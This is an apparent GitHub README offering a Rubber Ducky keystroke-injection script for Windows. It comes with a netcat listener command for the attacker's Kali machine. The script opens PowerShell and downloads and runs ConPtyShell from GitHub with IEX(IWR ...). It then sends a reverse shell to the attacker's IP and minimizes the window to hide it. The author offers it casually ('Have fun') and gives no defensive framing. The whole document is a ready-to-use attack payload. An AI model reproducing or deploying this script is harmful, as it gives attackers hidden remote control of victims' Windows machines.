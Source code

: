 use the script for inject. bin 
then.
Open terminal on attacking Kali machine and enter

stty raw -echo; (stty size; cat) | nc -lvnp (port number)

This code is based on a video by Networkchuck. I just made the Ducky script.

Have fun.
Dark Storme

REM Title:Reverse shell with poweshell
REM Author:Dark Storme
REM Description:Based on a Video by Network Chuck. I just made a Ducky version.
REM Target:Windows
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 1000
STRING IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (IP) (Port)
DELAY 500
ENTER
DELAY 500
ALT SPACE
STRING N
ENTER
